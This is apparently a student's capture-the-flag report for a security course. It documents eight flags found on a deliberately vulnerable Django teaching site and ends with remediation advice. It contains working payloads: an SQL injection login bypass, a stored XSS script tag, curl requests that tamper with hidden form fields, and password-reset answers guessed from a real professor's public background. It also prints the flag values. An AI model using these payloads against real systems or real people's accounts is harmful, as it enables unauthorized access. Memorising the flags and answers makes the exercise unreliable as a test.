







# Shmoury Admin CTF - Vulnerability Report

**Student Name:** Silas Spencer  
**Course:** CY2550  
**Professor:** Sakib Miazi  
**Date:** December 8, 2024

## Summary
This report documents 8 vulnerabilities discovered on the Shmoury Admin website at http://173.255.232.132/

---

## Flag 1: Inspector Detector (Security by Obscurity)

**Location:** Home page (after login) - http://173.255.232.132/

**Vulnerability Type:** Security-by-obscurity / Information Disclosure

**Flag:** `CY2550_FLAG1{u5yc32onkmutrul9ogbue3a0cj6dxtk7}`

### How I Exploited It:
1. Created an account and logged in
2. Right-clicked on the home page and selected "Inspect" or "View Page Source"
3. Found a hidden `<p>` element with attribute `hidden`:

```html
<p hidden>Psst...this isn't really a secure site. Good job being nosy! Here's your flag: CY2550_FLAG1{u5yc32onkmutrul9ogbue3a0cj6dxtk7}</p>
```

### Screenshot:


---

## Flag 2: SQL Injection (Regular Login)

**Location:** /login-submit/

**Vulnerability Type:** SQL Injection

**Flag:** `CY2550_FLAG2{gehdbf2k72tps3vfuo8z896u6gzp74iy}`

### How I Exploited It:
1. Navigated to the regular login page at /login/
2. Entered username: `cbw`
3. Entered password with SQL injection payload: `1' or '1`  
4. This modified the SQL query to always return true, bypassing authentication
5. Successfully logged in and received the flag

**Payload:**
```
Username: cbw
Password: 1' or '1
```

**Note:** This classic SQL injection makes the WHERE clause always evaluate to true because `'1' or '1'` is always truthy.

### Screenshots:


---

## Flag 3: Hours Submission (Server-Side Validation Failure)

**Location:** /submit-hours-submit/

**Vulnerability Type:** Server-side validation failure / Packet modification

**Flag:** `CY2550_FLAG3{vz106b927e6swvumftm3wsxynsi8tpr9}`

### How I Exploited It:
1. Navigated to the Submit Hours page at /submit-hours/
2. Inspected the page source and identified a hidden form field `max_hours` set to 20
3. Modified the POST request to change `max_hours` from 20 to 100
4. Submitted 25 hours on Sunday, exceeding the 20-hour limit
5. The server accepted the modified value and returned the flag

**Hidden Field Found:**
```html
<input type="hidden" id="max_hours" name="max_hours" value=20>
```

**Modified Payload:**
```bash
curl -X POST "http://173.255.232.132/submit-hours-submit/" \
  -d "csrfmiddlewaretoken=...&Sunday=25&Monday=0&Tuesday=0&Wednesday=0&Thursday=0&Friday=0&Saturday=0&max_hours=100"
```

### Screenshot:


---

## Flag 4: XSS Attack (Cross-Site Scripting)

**Location:** /feedback-submit/ and /feedback-results/

**Vulnerability Type:** Stored Cross-Site Scripting (XSS)

**Flag:** `CY2550_FLAG4{2fygm79woae6qr40jjaqtpygvjuf5e3z}`

### How I Exploited It:
1. Logged into the application
2. Navigated to the Feedback page at /feedback/
3. Submitted a script tag payload: `<script>document.write('XSS')</script>`
4. The script was stored and rendered on the feedback-results page
5. The flag was displayed when the XSS payload was executed

**Payload:**
```html
<script>document.write('XSS')</script>
```

**Server Response:**
```
Nice job with a successful XSS attack! Here's your flag: CY2550_FLAG4{2fygm79woae6qr40jjaqtpygvjuf5e3z}
```

### Screenshot:


---

## Flag 5: TA Application (Privilege Escalation / Client-Side Bypass)

**Location:** /ta-application-results

**Vulnerability Type:** Privilege escalation / Client-side validation bypass

**Flag:** `CY2550_FLAG5{yuzggy4gqjneichn2b1bm5pvvr250bu2}`

### How I Exploited It:
1. Navigated to the TA Application Portal at /ta-applications/
2. Noticed the Submit button was disabled with `disabled="true"`:
   ```html
   <input type="submit" value="Submit" disabled="true">
   ```
3. Used browser developer tools or curl to submit the form directly, bypassing the disabled button
4. The server had no server-side check for eligibility and accepted the submission

**Bypass Method:**
```bash
curl -X POST "http://173.255.232.132/ta-application-results" \
  -d "csrfmiddlewaretoken=...&fname=Test&lname=User&classes=CY2550&essay=I+am+qualified"
```

### Screenshot:


---

## Flag 7: Weak Identity Authentication (Password Reset)

**Location:** /forgot-password-kbq-submit/

**Vulnerability Type:** Weak identity authentication / Knowledge-based question weakness

**Flag:** `CY2550_FLAG7{yp1r2ksm6ivvam0yzy7qju1du8ujwm2z}`

### How I Exploited It:
1. Found the admin username "cbw" from the homepage (Christo Wilson - cbw@shmoury.edu)
2. Navigated to /forgot-password/ and entered "cbw" as the username
3. Was presented with security questions:
   - What is your favorite color?
   - Where did you go to school?
   - What did you study?
4. Guessed the answers based on publicly available information about the real Christo Wilson:
   - Color: **blue**
   - School: **UCSB** (University of California, Santa Barbara - where Christo Wilson got his PhD)
   - Study: **computer science**
5. Successfully answered all questions and obtained the flag

**Key Insight:** The security questions were easily guessable from public information about the real person, demonstrating why knowledge-based authentication is insecure.

### Screenshot:


---

## Flag 8: Hidden Scholarship Page (Security by Obscurity)

**Location:** /scholarships/2026/you-earned-it

**Vulnerability Type:** Security-by-obscurity / Predictable URL / URL Enumeration

**Flag:** `CY2550_FLAG8{7wrqno07megtgvnx2ajrshqptrab72gd}`

### How I Exploited It:
1. Navigated to /scholarships/2025 and saw all links pointed to "whoops-too-late" (closed applications)
2. Triggered a 404 error which revealed Django debug page with all URL patterns
3. Discovered hidden URL patterns including /scholarships/2026/first-click and /scholarships/2026/you-earned-it
4. Navigated to /scholarships/2026/first-click
5. Followed the link to /scholarships/2026/you-earned-it to get the flag

**URL Enumeration Discovery:**
```
scholarships/2026/first-click
scholarships/2026/you-earned-it
```

### Screenshot:


---

## Flag 9: Image Forensics (Steganography)

**Location:** /static/shmoury_assets/khoury.jpg

**Vulnerability Type:** Forensics / Metadata exposure / Steganography

**Flag:** `CY2550_FLAG9{an156eaty4lqk51rb5gi5mtdhmna4zlf}`

### How I Exploited It:
1. Noticed the hint on the homepage: "Can you find the secret message hidden in this image below?"
2. Downloaded the image from the home page
3. Examined the image using the `strings` command to extract readable text
4. Found the flag hidden in the image data

**Commands:**
```bash
curl -o khoury.jpg http://173.255.232.132/static/shmoury_assets/khoury.jpg
strings khoury.jpg | grep FLAG
```

**Output:**
```
0CY2550_FLAG9{an156eaty4lqk51rb5gi5mtdhmna4zlf}
```

**Alternative Method:** Use `exiftool khoury.jpg` to see the comment field containing the flag.

---

## Vulnerability Summary Table

| Flag # | Vulnerability Type | Location | Status |
|--------|-------------------|----------|--------|
| 1 | Security by Obscurity | Home page | ✅ Found |
| 2 | SQL Injection | /login | ✅ Found |
| 3 | Server-Side Validation | /submit-hours | ✅ Found |
| 4 | Cross-Site Scripting | /feedback | ✅ Found |
| 5 | Privilege Escalation | /ta-applications | ✅ Found |
| 7 | Weak Identity Auth | /forgot-password | ✅ Found |
| 8 | Security by Obscurity | /scholarships/2026 | ✅ Found |
| 9 | Forensics | khoury.jpg | ✅ Found |

**Total Flags Found: 8**

---

## Recommendations

1. **Flag 1 (Hidden HTML)**: Never rely on `hidden` attributes for security. Use server-side access controls.

2. **Flag 2 (SQL Injection)**: Use parameterized queries or prepared statements. Never concatenate user input into SQL queries.

3. **Flag 3 (Validation Bypass)**: Always validate user input on the server side. Never trust client-side values, including hidden form fields.

4. **Flag 4 (XSS)**: Sanitize and escape all user input before displaying it. Use Content Security Policy (CSP) headers.

5. **Flag 5 (Disabled Button Bypass)**: Implement server-side eligibility checks, not just client-side UI restrictions.

6. **Flag 7 (Weak KBA)**: Avoid using easily guessable security questions. Use stronger authentication methods like 2FA.

7. **Flag 8 (URL Guessing)**: Implement proper access controls for unpublished content. Disable debug mode in production.

8. **Flag 9 (Metadata Exposure)**: Strip metadata from images before publishing to prevent information leakage.

---

## Screenshots Directory

All screenshots are stored in the `screenshots/` folder:
- `flag1_homepage.png` - Homepage with hidden element
- `flag2_sqli_payload.png` - SQL injection payload
- `flag3_submit_hours_form.png` - Submit hours form with hidden field
- `flag4_xss_payload.png` - XSS payload in feedback form
- `flag5_ta_application.png` - TA application result
- `flag7_kbq_success.png` - Successful password recovery
- `flag8_scholarship_hidden.png` - Hidden scholarship page
